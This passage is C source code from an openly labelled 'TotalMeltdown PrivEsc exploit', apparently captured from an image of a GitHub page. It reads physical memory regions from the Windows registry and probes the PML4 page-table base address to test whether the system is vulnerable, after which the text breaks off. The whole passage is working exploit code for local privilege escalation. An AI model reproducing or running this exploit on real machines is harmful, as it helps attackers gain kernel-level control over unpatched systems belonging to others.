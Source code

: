 ```C
	{
		printf("[*] Could not get reg key\n");
		return 0;
	}

	if (RegQueryValueExW(hKey, pszValueName, 0, &type, NULL, &dwLength) != NOERROR)
	{
		printf("[*] Could not query hardware key\n");
		return 0;
	}

	lpData = (LPBYTE)malloc(dwLength);
	RegQueryValueExW(hKey, pszValueName, 0, &type, lpData, &dwLength);

	CM_RESOURCE_LIST* resource_list = (CM_RESOURCE_LIST*)lpData;

	for (int i = 0; i < resource_list->Count; i++) {
		for (int j = 0; j < resource_list->List[0].PartialResourceList.Count; j++) {
			if (resource_list->List[i].PartialResourceList.PartialDescriptors[j].Type == 3) {
				regions->address = resource_list->List[i].PartialResourceList.PartialDescriptors[j].u.Memory.Start.QuadPart;
				regions->size = resource_list->List[i].PartialResourceList.PartialDescriptors[j].u.Memory.Length;
				regions++;
				count++;
			}
		}
	}

	return count;
}

int main()
{
	printf("TotalMeltdown PrivEsc exploit by @_xpn_\n");
	printf("  paging code by @UlfFrisk\n\n");

	unsigned long long iPML4, vaPML4e, vaPDPT, iPDPT, vaPD, iPD;
	DWORD done;
	DWORD count;

	// Parse registry for physical memory regions
	printf("[*] Getting physical memory regions from registry\n");
	struct memory_region* regions = (struct memory_region*)malloc(sizeof(struct memory_region) * 10);

	count = parse_memory_map(regions);
	if (count == 0) {
		printf("[X] Could not find physical memory region, quitting\n");
		return 2;
	}

	for (int i = 0; i < count; i++) {
		printf("[*] Phyiscal memory region found: %p - %p\n", regions[i].address, regions[i].address + regions[i].size);
	}

	// Check for vulnerability
	__try {
		int test = *(unsigned long long*)PML4_BASE;
	}
	__except (EXCEPTION_EXECUTE_HANDLER) {
		printf("[X] Could not access PML4 address, system likely not vulnerable\n");
```